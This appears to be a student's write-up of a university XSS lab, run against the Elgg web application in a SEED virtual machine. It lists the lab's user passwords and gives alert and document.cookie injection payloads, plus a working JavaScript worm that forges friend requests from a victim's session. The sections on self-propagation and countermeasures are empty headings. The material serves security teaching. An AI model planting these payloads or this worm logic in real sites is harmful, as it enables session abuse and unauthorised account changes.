





# CSUS CSC154: XSS Lab  

## Goal  
To fully demonstrate what attackers can do by exploiting XSS vulnerabilities.


## Lab Environment  
In this lab, we need three things, which are already installed in the provided `SEEDUbuntu12.04` VM image: (1) the Firefox web browser, (2) the Apache web server, and (3) the Elgg web application. For the browser, we need to use the LiveHTTPHeaders extension for Firefox to inspect the HTTP requests and responses. The pre-built Ubuntu VM image provided to you has already installed the Firefox web browser with the required extensions.  

The user accounts for Elgg are found below.  

| User          | UserName      | Password     |
| ------------- |:-------------:| ------------:|
| Admin         | admin         | seedelgg     |
| Alice         | alice         | seedalice    |
| Boby          | boby          | seedboby     |
| Charlie       | charlie       | seedcharlie  |
| Samy          | samy          | seedsamy     |


## Lab Tasks  

### Posting a Malicious Message to Display an Alert Window  
The objective of this task is to embed a JavaScript program in our Elgg profile, such that when another
user views our profile, the JavaScript program will be executed and an alert window will be displayed. The
following JavaScript program will display an alert window:  

```javascript
<script>alert('xss');</script>
```

To accomplish this, we simply login as Samy, and navigate to edit our profile. As can be seen in Figure 1 below, we've placed our JavaScript payload in the "Brief Descriptoin" portion of Samy's profile.  
  
**Figure 1:** JavaScript alert window payload to demonstrate XSS.  

  
**Figure 2:** JavaScript alert window fires when Samy's profile is visited.  


### Posting a Malicious Message to Display Cookies
The objective of this task is to embed a JavaScript program in our Elgg profile, such that when another user views our profile, the user's cookies will be displayed in the alert window. This can be done by adding some additional code to the JavaScript program in the previous task, more specifically `document.cookie` as such: 
```javascript
<script>alert(document.cookie);</script>
```

To accomplish this, we repeat the previous task, but replace the `'xss'` string, with `document.cookie`.  
  
**Figure 3:** JavaScript alert window payload to display user's cookie for the site.  

  
**Figure 4:** JavaScript alert window displays our Elgg cookie when visiting Samy's profile.


### Writing an XSS Worm  
In this and next task, we will perform an attack similar to what Samy did to MySpace in 2005 (i.e. the Samy Worm). First, we will write an XSS worm that does not self-propagate; in the next task, we will make it self-propagating. In this task, we need to write a malicious JavaScript program that forges HTTP requests directly from the victim's browser, without the intervention of the attacker. The objective of the attack is to modify the victim's profile and add Samy as a friend to the victim. 

We can view the requests made to the server when adding a friend, by using the Live HTTP Headers plugin. In Figure 5 below, we're viewing the request made when Boby adds Alice as a friend.  
  
**Figure 5:** HTTP Headers for friend request, Boby to Alice.  


We can also see by hovering over the link to to add Samy as a friend, the url is `http://www.xsslabelgg.com/action/friends/add?friend=42&__elgg_ts=1575329197&__elgg_token=ac28852afbfcd82a9fd72aa9923110f3`.

Using this information we can construct an AJAX request to add Samy as a friend as soon as you visit his profile. To create our worm this we've developed the following JavaScript code, which we embed in the About Me section of Samy's profile.

```javascript
<script>
var Ajax=null;
var guid = elgg.session.user['guid'];
var ts = elgg.security.token__elgg_ts;
var token = elgg.security.token.__elgg_token;
// Construct the header information for the HTTP request
Ajax=new XMLHttpRequest();
Ajax.open("GET","http://www.xsslabelgg.com/action/friends/add",true);
Ajax.setRequestHeader("Host","www.xsslabelgg.com");
Ajax.setRequestHeader("Keep-Alive","300");
Ajax.setRequestHeader("Connection","keep-alive");
Ajax.setRequestHeader("Cookie",document.cookie);
Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
// Construct the content. The format of the content can be learned
// from LiveHTTPHeaders.
var content ="friend=42&__elgg_ts="+ts+"&__elgg_token="+token;
// Send the HTTP POST request.
Ajax.send(content);
</script>
```


OLD SKELETON DOES NOT WORK....
```javascript
<script>
var Ajax=null;
// Construct the header information for the HTTP request
Ajax=new XMLHttpRequest();
Ajax.open("POST","http://www.xsslabelgg.com/action/profile/edit",true);
Ajax.setRequestHeader("Host","www.xsslabelgg.com");
Ajax.setRequestHeader("Keep-Alive","300");
Ajax.setRequestHeader("Connection","keep-alive");
Ajax.setRequestHeader("Cookie",document.cookie);
Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
// Construct the content. The format of the content can be learned
// from LiveHTTPHeaders.
var content="name="+elgg.session.user["username"]+"&description=SamyWorm&guid="+elgg.session.user['guid']; // You need to fill in the details.
// Send the HTTP POST request.
Ajax.send(content);
</script>
```


### Task 6: Writing a Self-Propagating XSS Worm  

### Task 7: Countermeasures  
